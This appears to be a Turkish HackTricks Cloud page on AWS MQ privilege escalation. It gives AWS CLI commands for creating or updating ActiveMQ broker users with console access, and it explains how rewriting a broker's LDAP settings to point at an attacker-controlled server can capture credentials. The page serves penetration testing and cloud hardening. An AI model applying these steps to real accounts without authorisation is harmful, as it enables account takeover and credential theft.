# AWS - MQ Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## MQ

MQ hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Bu izinlerle **bir ActimeMQ broker'ında yeni bir kullanıcı oluşturabilirsiniz** (bu RabbitMQ'da çalışmaz): 

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Olası Etki:** ActiveMQ üzerinden hassas bilgilere erişim

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Bu izinlerle **ActiveMQ broker'ında yeni bir kullanıcı oluşturabilirsiniz** (bu RabbitMQ'da çalışmaz):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Olası Etki:** ActiveMQ üzerinden hassas bilgilere erişim

### `mq:ListBrokers`, `mq:UpdateBroker`

Eğer bir broker **ActiveMQ** ile yetkilendirme için **LDAP** kullanıyorsa, **saldırgan tarafından kontrol edilen** **LDAP sunucusunun** **konfigürasyonunu değiştirmek** mümkündür. Bu şekilde saldırgan, **LDAP üzerinden gönderilen tüm kimlik bilgilerini çalabilir**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Eğer ActiveMQ tarafından kullanılan orijinal kimlik bilgilerini bir şekilde bulabilirseniz, bir MitM gerçekleştirebilir, kimlik bilgilerini çalabilir, bunları orijinal sunucuda kullanabilir ve yanıtı gönderebilirsiniz (belki çalınan kimlik bilgilerini yeniden kullanarak bunu yapabilirsiniz).

**Potansiyel Etki:** ActiveMQ kimlik bilgilerini çalmak

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
